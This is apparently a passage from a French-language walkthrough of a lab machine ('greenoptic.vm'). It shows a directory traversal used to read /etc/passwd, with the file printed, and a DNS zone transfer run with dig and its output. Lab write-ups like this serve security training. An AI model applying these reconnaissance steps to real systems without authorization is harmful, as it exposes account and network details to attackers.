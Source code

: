 On a clairement un directory traversal. Via le `/etc/passwd` je trouve plusieurs accounts :

```
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:998:996::/var/lib/chrony:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
mysql:x:27:27:MariaDB Server:/var/lib/mysql:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
sam:x:1000:1000::/home/sam:/bin/bash
terry:x:1001:1001::/home/terry:/bin/bash
named:x:25:25:Named:/var/named:/sbin/nologin
alex:x:1002:1002::/home/alex:/bin/bash
dovecot:x:97:97:Dovecot IMAP server:/usr/libexec/dovecot:/sbin/nologin
dovenull:x:997:993:Dovecot's unauthorized user:/usr/libexec/dovecot:/sbin/nologin
monitor:x:1003:1003::/home/monitor:/bin/bash
saslauth:x:996:76:Saslauthd user:/run/saslauthd:/sbin/nologin
```

J'étais aussi curieux de voir ce qu'il y avait derrière ce port DNS en TCP. Typiquement un indice qu'un transfert de zone est possible... Et c'est le cas :

```console
$ dig -t AXFR greenoptic.vm @192.168.56.137

; <<>> DiG 9.20.10 <<>> -t AXFR greenoptic.vm @192.168.56.137
;; global options: +cmd
greenoptic.vm.          3600    IN      SOA     websrv01.greenoptic.vm. root.greenoptic.vm. 1594567384 3600 600 1209600 3600
greenoptic.vm.          3600    IN      NS      ns1.greenoptic.vm.
ns1.greenoptic.vm.      3600    IN      A       127.0.0.1
recoveryplan.greenoptic.vm. 3600 IN     A       127.0.0.1
websrv01.greenoptic.vm. 3600    IN      A       127.0.0.1
greenoptic.vm.          3600    IN      SOA     websrv01.greenoptic.vm. root.greenoptic.vm. 1594567384 3600 600 1209600 3600
;; Query time: 6 msec
;; SERVER: 192.168.56.137#53(192.168.56.137) (TCP)
;; WHEN: Fri Jul 18 19:10:52 CEST 2025
;; XFR size: 6 records (messages 1, bytes 235)
```
